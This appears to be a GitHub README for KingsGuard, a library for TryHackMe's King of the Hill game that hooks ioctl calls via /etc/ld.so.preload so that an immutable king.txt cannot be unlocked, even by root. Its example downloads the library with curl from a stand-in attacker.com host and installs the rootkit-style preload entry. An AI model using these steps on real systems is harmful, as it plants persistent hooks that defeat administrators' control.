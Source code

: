 # KingsGuard

## Description
KingsGuard is a utility designed for use in tryhackme's king of the hill. It prevents anyone (even root) from writing to the king.txt file. First you write your name to the king.txt flag. Then change the file attributes to make it immutable (unchangeable even by root): `root@ubuntu:~# chattr +i /root/king.txt`. Now it's the library's job to prevent anyone else from changing the attribute back. It does this by intercepting any calls to the ioctl system call made by system binaries. The king.txt is still readable but not writable.

## Example
`$ curl http://attacker.com/kingsguard.so --output /usr/lib/kingsguard.so`
 
`$ echo 31337h4x0r > /root/king.txt`
 
`$ chattr +i /root/king.txt`
 
`$ echo '/usr/lib/kingsguard.so' > /etc/ld.so.preload`

## Limitations
- Kingsguard doesn't affect statically compiled binaries. Only dynamically compiled ones. This isn't generally an issue though since most binaries on most systems that I've come across are dynamically compiled.
- The root user can remove the library itself or remove the /etc/ld.so.preload entry that makes all binaries load the libary.
- The LD_PRELOAD function hooking technique isn't new. It has been around for a long time. Take a look at the Jynx rootkit for more examples of this same technique.
